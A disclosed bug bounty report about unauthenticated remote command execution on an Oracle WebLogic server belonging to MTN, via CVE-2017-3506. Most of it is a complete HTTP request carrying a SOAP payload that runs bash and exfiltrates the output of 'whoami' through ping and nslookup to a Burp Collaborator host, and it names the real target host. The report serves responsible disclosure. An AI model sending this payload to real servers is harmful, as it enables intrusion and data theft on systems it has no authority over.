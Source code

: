 # Remote OS Command Execution on Oracle Weblogic server via [CVE-2017-3506]

## Report Details
- **Report ID**: 810778
- **URL**: https://hackerone.com/reports/810778
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-03-04T14:20:40.692Z
- **Disclosed**: 2021-04-25T12:37:45.916Z

## Reporter
- **Username**: tounsi_007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
##Summary

Hello. I was able to identify RCE vulnerability due to the outdated Oracle Weblogic instance on `https://raebilling.mtn.co.za`.

##Steps To Reproduce

* To reproduce, try this request with BurpSuite 
* This request to the `https://raebilling.mtn.co.za/wls-wsat/RegistrationRequesterPortType` will trigger Remote OS Command Execution:

```
POST /wls-wsat/RegistrationRequesterPortType HTTP/1.1
Host: raebilling.mtn.co.za
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8,
Accept-Languag: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3,
Content-Type: text/xml;charset=UTF-8
Content-Length: 873

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
                <void index="1">
                  <string>-c</string>
                </void>
        <void index="2">
                  <string>ping `whoami`.fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```
==**Note:**== 
* **To reproduce this case with nslookup or ping, `fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net` host should be replaced by your own Burp Collaborator instance or with your private `VPS IP` to catch the DNS request**

##_**Example:**_

``` 
ping `whoami`.fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net
nslookup `whoami`.fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net
```
==**POC:**== {F736973}

## Suggested Mitigation/Remediation Actions
* Patching WebLogic to the recent version will fix the issue.

## Impact

**This vulnerability allow an unauthenticated attacker:**
* To perform Remote OS Command Execution

## Attachments
- RCE_3506_whoami.png
